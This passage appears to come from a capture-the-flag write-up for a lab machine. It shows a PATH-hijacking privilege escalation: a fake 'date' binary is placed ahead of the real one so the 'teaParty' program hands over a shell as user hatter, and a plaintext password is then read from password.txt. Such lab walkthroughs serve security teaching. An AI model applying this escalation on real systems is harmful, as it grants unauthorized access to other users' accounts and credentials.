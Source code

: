 ## Let give permission and run this
```bash
rabbit@wonderland:/home/rabbit$ chmod +x date 
rabbit@wonderland:/home/rabbit$ ./date
rabbit@wonderland:/home/rabbit$ 
```
## Let check the shell level to get an idea of success
```bash
rabbit@wonderland:/home/rabbit$ echo "$SHLVL"
3
rabbit@wonderland:/home/rabbit$ 
```
### okay we got differ session 
# 7. Let add this to path
```bash
rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH
rabbit@wonderland:/home/rabbit$ 
```
## It is gonna use prefex of that binary so We successfully make a fake date command that give use other user , before reaching to real date command
### Let run teaParty again
```bash
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ 
````
## Ok i got hatter 
```bash
Probably by hatter@wonderland:/home/rabbit$ cd /home/hatter/
hatter@wonderland:/home/hatter$ ls -la
total 28
drwxr-x--- 3 hatter hatter 4096 May 25  2020 .
drwxr-xr-x 6 root   root   4096 May 25  2020 ..
lrwxrwxrwx 1 root   root      9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 hatter hatter  220 May 25  2020 .bash_logout
-rw-r--r-- 1 hatter hatter 3771 May 25  2020 .bashrc
drwxrwxr-x 3 hatter hatter 4096 May 25  2020 .local
-rw-r--r-- 1 hatter hatter  807 May 25  2020 .profile
-rw------- 1 hatter hatter   29 May 25  2020 password.txt
hatter@wonderland:/home/hatter$ 
```
### I got a file password.txt maybe it for hatter 
```bash
hatter@wonderland:/home/hatter$ cat password.txt 
WhyIsARavenLikeAWritingDesk?
hatter@wonderland:/home/hatter$ su hatter 
Password: 
hatter@wonderland:~$ 
hatter@wonderland:~$ whoami
hatter
hatter@wonderland:~$ 
```
# I dont think it make any difference